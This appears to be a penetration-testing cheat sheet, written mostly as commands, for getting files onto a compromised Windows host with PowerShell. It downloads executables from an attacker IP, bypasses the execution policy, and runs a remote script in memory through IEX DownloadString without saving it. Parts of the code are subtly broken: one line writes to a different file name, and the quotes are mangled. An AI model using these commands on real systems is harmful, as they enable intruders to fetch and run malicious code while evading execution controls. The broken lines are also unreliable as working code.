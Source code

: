 # powershell

## Quick How To

* cannot use Powershell.exe with a non-interactive shell
* therefore, create a Powershell script then execute it

```bash
echo $storageDir = $pwd > wget.ps1
echo $webClient = New-Object System.Net.Webclient >> wget.ps1
echo $url = “[http://192.168.1.101/file.exe”](http://192.168.1.101/file.exe%E2%80%9D) >> wget.ps1
echo $file = “output-file.exe” >> wget1.ps1
echo $webclient.DownloadFile($url, $file) >> wget.ps1
```

* now, invoke the script

```bash
# use this to set the execution policy and download the file
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# or this one-liner
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe', 'newfile.exe')
```

## Execute Remote Powershell Files without Saving them Locally

```bash
# first, create or download a script on the attacking machine
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/testscript.ps1')
```


